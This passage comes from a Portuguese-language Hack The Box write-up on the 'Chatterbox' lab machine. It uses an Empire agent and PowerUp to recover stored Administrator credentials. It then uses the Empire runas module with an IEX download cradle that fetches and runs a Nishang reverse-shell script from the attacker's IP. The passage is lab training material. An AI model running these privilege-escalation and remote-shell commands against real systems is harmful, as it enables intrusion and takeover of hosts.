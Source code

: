 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e7.png)

Agora executamos e recebemos a chamada no empire

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e8.png)

Interagimos com o agent

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e9.png)

Procuramos pelo módulo `PowerUp`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e11.png)

Rodamos ele

> usemodule powershell/privesc/powerup/allchecks

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/U_e10.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e10.png)

Voltamos e interagimos novamente pra pegar o resultado (demora um pouco para ele ser executado)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e13.png)

Ai está, o login e senha

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e12.png)

Agora porcuramos pelo módulo do `RunAs` para executar comandos como Administrador

> searchmodule runas

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e14.png)

Setamos ele, configuramos e executamos (ao executar, lembrar de ter um Python Web Server e um nc escutando na porta que está no Nishang)

> usemodule powershell/management/runas

```
set UserName Administrator
set Password Welcome1!
set Cmd Powershell
set Arguments "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/Invoke-PowerShellTcp.ps1')"
set Agent XS9Z4B1U
set Domain CHATTERBOX
execute
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e15.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e16.png)
